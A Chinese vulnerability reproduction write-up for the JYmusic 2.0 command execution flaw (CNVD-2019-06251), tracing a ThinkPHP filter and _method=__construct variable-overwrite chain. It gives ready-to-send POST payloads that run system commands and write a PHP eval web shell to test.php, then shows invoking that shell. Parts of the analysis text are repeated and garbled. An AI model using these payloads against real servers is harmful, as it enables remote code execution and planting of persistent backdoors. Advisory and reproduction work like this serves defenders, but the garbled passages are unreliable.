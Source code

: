 （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞
===========================================

一、漏洞简介
------------

CNVD-2019-06251

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call\_user\_func函数。

![](./resource/JYmusic2.0命令执行漏洞/media/rId26.png)

通过构造使得\$filter=system， \$value=dir
，通过call\_user\_func函数即可执行系统命令" dir "。

#### array\_walk\_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array\_walk\_recursive函数调用了filterValue函数。array\_walk\_recursive()
函数对数组中的每个元素应用用户自定义函数。

![](./resource/JYmusic2.0命令执行漏洞/media/rId28.png)

![](./resource/JYmusic2.0命令执行漏洞/media/rId29.jpg)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![](./resource/JYmusic2.0命令执行漏洞/media/rId31.jpg)

![](./resource/JYmusic2.0命令执行漏洞/media/rId32.jpg)

#### exec 函数

/core/library/think/App.php类中的exec
函数通过Request::instance()-\>param()调用了param函数。

![](./resource/JYmusic2.0命令执行漏洞/media/rId34.jpg)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![](./resource/JYmusic2.0命令执行漏洞/media/rId36.jpg)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![](./resource/JYmusic2.0命令执行漏洞/media/rId37.jpg)

![](./resource/JYmusic2.0命令执行漏洞/media/rId38.jpg)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request-\>method()调用了method函数。

/core/library/think/Request.php类中，通过post参数\_method=\_\_construct调用构造函数：

![](./resource/JYmusic2.0命令执行漏洞/media/rId40.png)

在构造函数里用filter=system覆盖类中的filter变量。

![](./resource/JYmusic2.0命令执行漏洞/media/rId41.png)

post参数 method=GET
就是要再次调用method函数，并且使得if(true===\$method)为真，从而获取
\_SERVER\[REQUEST\_METHOD\]=dir 这个参数值。

![](./resource/JYmusic2.0命令执行漏洞/media/rId42.jpg)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![](./resource/JYmusic2.0命令执行漏洞/media/rId47.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&\_SERVER\[REQUEST\_METHOD\]=dir&\_method=\_\_construct&method=GET
POST参数后不能有\\r\\n回车换行，如果有就不能成功执行。 POST /captcha
HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![](./resource/JYmusic2.0命令执行漏洞/media/rId49.png)

    filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET

#### phpinfo()

![](./resource/JYmusic2.0命令执行漏洞/media/rId51.png)

    http://0-sec.org/test.php?test=phpinfo(); 

    //末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91345116>
